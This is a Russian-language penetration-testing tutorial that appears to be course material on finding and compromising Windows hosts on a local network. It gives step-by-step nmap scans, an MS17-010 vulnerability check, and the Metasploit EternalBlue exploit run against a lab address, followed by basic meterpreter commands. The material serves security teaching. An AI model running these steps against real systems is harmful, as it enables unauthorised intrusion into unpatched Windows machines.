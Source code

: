 ### Основные понятия

**NBT** (NetBIOS over TCP/IP) — механизм отображения запросов NetBIOS на TCP/IP.

**Служба имен NetBIOS (NBT-NS)** — это протокол Windows, который используется для преобразования имен NetBIOS в
IP-адреса в
локальной сети.

**LLMNR, англ. Link-Local Multicast Name Resolution** — протокол стека TCP/IP, основанный на формате пакета данных DNS,
который позволяет компьютерам выполнять разрешение имен хостов в локальной сети.

**MS17-010** — обновление безопасности, устраняющее уязвимости в Microsoft Windows. Наиболее серьезная из уязвимостей
может
позволить удаленное выполнение кода, если злоумышленник отправит специально созданные сообщения на сервер Microsoft
Server Message Block 1.0 (SMBv1).

### Разбор базового примера

Вы получили доступ к локальной сети, ваша задача — найти Windows машины и попробовать поэксплуатировать обнаруженные
уязвимости для получения доступа к учетным записям домена и его сервисам.

Поиск машин Windows в локальной сети

Когда вы обнаружили существующие узлы в сети и хотите выявить среди них узлы Windows, стоит начать с:

Сканирования портов, принадлежащих Windows машинам
Изучения трафика широковещательных запросов, которые инициируют Windows машины
Ход действий

1. Проведем разведку Windows-машины, начнем со сканирования открытых портов:

> $ nmap -Pn -n -F -sT --open 192.168.10.0/24

2. Наибольший интерес тут представляет порт 445, используемый протоколом SMB для доступа к файлам и папкам и
   взаимодействия между хостами:

> $ nmap -Pn -n -p 445 -sC -v --open 192.168.10.4

3. Данная версия Windows может быть подвержена MS17-010 – критической уязвимости, позволяющей атакующему выполнить
   произвольный код с правами пользователя SYSTEM. Найдем и используем скрипт nmap для проверки хоста на уязвимости:

> $ find /usr/share/nmap/scripts -iname '*MS17*'

> /usr/share/nmap/scripts/smb-vuln-ms17-010.nse

> $ nmap -Pn -n -p 445 --script smb-vuln-ms17-010 -v --open 192.168.10.4

4. Для эксплуатации уязвимости используем Metasploit Framework:

> $ msfconsole

5. Выбираем эксплойт:

> msf6> search ms17-010

> msf6> use exploit/windows/smb/ms17_010_eternalblue

6. Указываем адрес удаленной машины:

> msf6> set RHOSTS 192.168.10.4

7. Запускаем эксплойт:

> msf6> run

После успешной эксплуатации уязвимости мы получаем доступ к управлению хостом с помощью meterpreter – С2-агента,
предоставляющего множество удобных средств для выполнения команд и различного кода на удаленном хосте, загрузки и
выгрузки файлов, использования хоста в качестве прокси-сервера и, главное, предоставление msf возможности выполнения
различных локальных модулей, автоматизирующих повышение прав и постэксплуатацию на машине.

8. Ознакомимся с основными возможностями meterpreter:

> meterpreter> help

9. Соберем информацию о системе и текущем пользователе:

> meterpreter> sysinfo

> meterpreter> getuid

### Общие принципы

Мы уже познакомились с различными аспектами сканирования локальной сети и внешней сети. Повторим важное:

Сканировать сеть следует, начиная с поиска узлов
После обнаружения узлов можно заняться сканированием сервисов на них
Искать стоит только те сервисы, с которыми вы знаете, что нужно делать
Соответственно, когда вы обнаружили существующие узлы в сети и хотите выявить среди них узлы Windows, стоит начать с:

Сканирования портов, принадлежащих Windows машинам
Изучения трафика широковещательных запросов, которые инициируют Windows машины
Далее рассмотрим две техники: обнаружения Windows-машин в сети и компрометации Windows-машин

